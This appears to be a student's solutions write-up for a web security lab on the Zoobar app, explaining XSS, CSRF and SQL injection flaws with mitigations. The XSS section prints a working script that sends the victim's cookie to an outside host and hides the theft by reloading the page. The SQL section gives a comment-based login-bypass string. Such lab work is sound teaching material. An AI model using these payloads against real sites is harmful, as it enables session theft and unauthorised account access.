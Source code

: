 # Solutions

## A
### Vulnerability
There is a XSS vulnerability in `users.php`. Particularly in this part
```html
 <input type="text" name="user" value="<?php 
   echo stripslashes($_GET['user']); 
 ?>" size=10>
 ```
 The website directly plugs a user given string (`user` parameter) to the HTML.

### Explanation
My user parameter is in this format: `"><script>....</script>`. It first closes the `value` field and then insert a new `script` block, the script block contains the following code
```javascript
var i = new Image();
i.src =
  "http://zoomail.org/sendmail.php?netid=ctseng27&payload=" +
  document.cookie +
  "&r=" +
  Math.random();
i.onerror = function () {
  window.location = window.location.pathname;
};
```
which create a new image with the `sendmail` API as the source. This causes the victim's browser to send a `GET` request along with the user's cookie as a parameter to the API and finally reload the page without any parameter so the user will not notice any malicious activity.

### Mitigation
The website should sanitize user input before inserting them to the webpage, for example, replace `>` with `&gt`.


## B
### Vulnerability
The transfer form is vulnerable to cross site request forgery (CSRF). The website will transfer zoobars without checking if the user submits the request through zoobar's website.

### Explanation
In my webpage, I create a form with identical fields found in `transfer.php` and the fields is prefilled with malicious values (send 10 zoobars to the attacker). When the victim open the page, it will automatically submit the form and redirect to bing.com.

### Mitigation
The website should introduce CSRF token in the form to ensure that all transfer requests come from zoobar's own website. On top of that, the website could also check referrer header.


## C
### Vulnerability
The website does not sanitize SQL command in some important part of the code. Specifically in `_checkLogin()` in `auth.php`
```php
$quoteduser = $this->db->quote($username);
$sql = "SELECT * FROM Person WHERE " .
       "Username = '$username' AND " .
       "Password = '$hashedpassword'";
```
Instead of the sanitized `$quoteduser`, the code uses the original `$username` instead.

### Explanation
In order to bypass the auth check, I set `$username` to `someuser'--`, so the whole SQL command will be 
```sql
SELECT * FROM Person WHERE Username = 'someuser'--' AND Password = '$hashedpassword'
```
Since the password checking part is commented out, I can access whatever user's data I want. 
However, the website check if the user exists in some previous part of the code (using proper SQL sanitization) so to successfully launch this attack, the webpage I made will automatically register the malicious username and login afterwards.

### Mitigation
The website should replace `$username` to `$quoteduser` in the `_checkLogin()` like I mentioned. But this will not be enough. The following snippet came from the `_checkRemembered()` function in the same file 
```php
$sql = "SELECT * FROM Person WHERE " .
           "(Username = '$username') AND (Token = '$token')";
```
This is also vulnerable to similar attack. So, to minimize the chance of introducing SQL injection vulnerabilities, the developers should use parameterized SQL queries, e.g., the `prepare()` statement, instead of concatenating string manually.
